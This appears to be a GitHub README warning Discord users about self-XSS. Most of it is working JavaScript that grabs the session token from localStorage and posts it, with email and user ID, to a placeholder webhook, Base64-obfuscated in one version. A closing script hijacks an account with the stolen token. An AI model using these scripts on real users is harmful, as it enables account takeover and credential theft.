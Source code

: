 # Discord Self-XSS
Although Discord repeatedly prints massive warnings on the console, telling people about the potential dangers that pasted unknown code snippets could lead to, most users are unwary, and casually run scripts without understanding what they do.

By convincing a user to paste just a couple lines of code, an attacker could access `localStorage` to copy the Session Token without the user even noticing, using something like the following script:

```JS
/* Without any discernible change, an `iframe`
is created in order to access `localStorage`
through its `contentWindow` property. The users's
token is then copied and `slice` is used to remove
its quotation marks (for aesthetic purposes) */
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
```

This script could be quickly adapted to act as a warning for uncautious users, the simplest way being to *literally* `alert()` them, like this:
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
alert(`Your Discord token is:\n${token}\n\nNever paste any code you don't understand in the console!`);

// This could also be compacted into one line
alert(`Your Discord token is:\n${document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1)}\n\nNever paste any code you don't understand in the console!`);
```

It could just as easily be modified into something malicious, as in this example:
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
  
/* With a simple HTTP Request, your
token could be sent to the attacker
using a Discord Webhook. This does
not cause a CORS error as webhooks
use the same domain as the Discord
website, and are thus treated like
any other request */
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    "content": token,
    "embeds": null
  })
});

// Once again, this could be minified
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({"content":document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1),"embeds":null})});
```

Even with a modification as simple as encoding all mentions of a "token" and the Webhook URL *(which could catch their eye)* to Base64 and decoding them using `atob()` could suffice to trick a naive user, as done in this snippet:
```JS
fetch(atob("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTIzNDU2Nzg5MDEyMzQ1Njc4L2FiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6QUJDREVGR0hJSkxLTE1OT1BRUlNUVVZXWFlaMTIzNDU2Nzg5MGFiY2Rl"),{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({"content":document.body.appendChild(document.createElement("iframe")).contentWindow[atob("bG9jYWxTdG9yYWdl")][atob("dG9rZW4=")].slice(1,-1),"embeds":null})});
```

Any attempt at obfuscation could be susicious to some users, but the great majority wouldn't bat an eye before pasting a code-block, even with escaped characters, generated by something like obfuscator.io.

While accessing `localStorage`, an attacker might as well make use of other cached information *(although i just realized all one would really need is the token)* and create a nice embed for his webhook, as I did with the following script:
```JS
let localStorage = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage;
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde", JSON.stringify({
  "content": null,
  "embeds": [{
    "title": "Successfully Grabbed Token!",
    "color": 2067276,
    "fields": [{
      "name": "User",
      "value": `<@!${localStorage.user_id_cache}>`,
      "inline": true
    }, {
      "name": "Email",
      "value": localStorage.email_cache,
      "inline": true
    }, {
      "name": "Token",
      "value": l.token.slice(1, -1).replaceAll("-", "-/n")
    }],
    "footer": {
      "text": "Hacker Pepe v0.0.0",
      "icon_url": "https://imgur.com/5Ri5eok.png"
    }
  }],
  "username": "Hacker Pepe",
  "avatar_url": "https://imgur.com/5Ri5eok.png"
}));
```

Regardless of whether or not an attacker sends himself another user's token using a great embed such as the one produced by the above script, allowing someone else access to `localStorage` can let them extract a lot of information about the user, and should never be done.

![Example Embed](/embed.png)

And just like that, an internet stranger could know your token. This is concerning, as by simply opening a new [incognito] tab, opening Discord, and pasting this almost identical script *(ironic...)*, they could set their token to yours and access your account.
```JS
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token=`"YOUR_TOKEN"`;
location.reload();
```

So please never paste any script into your console unless you understand what it does and fully trust the person who sent it to you.
